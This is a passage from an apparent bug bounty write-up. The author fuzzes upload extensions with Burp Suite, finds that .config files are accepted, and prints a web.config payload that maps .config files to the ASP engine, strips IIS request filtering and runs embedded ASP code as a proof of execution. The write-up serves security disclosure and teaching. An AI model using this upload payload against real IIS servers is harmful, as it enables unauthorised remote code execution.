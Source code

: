 The position of the payload is the file extension and as payload I used this wordlist from [SecLists](https://github.com/danielmiessler/SecLists) : /SecLists/Fuzzing/extensions-skipfish.fuzz.txt

Now launch the attack and wait for results. Here are the payloads who works :

![BurpSuite working payload](/assets/imgs/bounty/working_payload.PNG)

Searching on Google what I could do with this extension, I found those articles :

- [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
- [https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/](https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/)

I might be able to upload a web.config file and get code execution !

## Exploit

------

Reading the articles, there is a test file when upload and executed who output '3' if there is a code execution : 

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

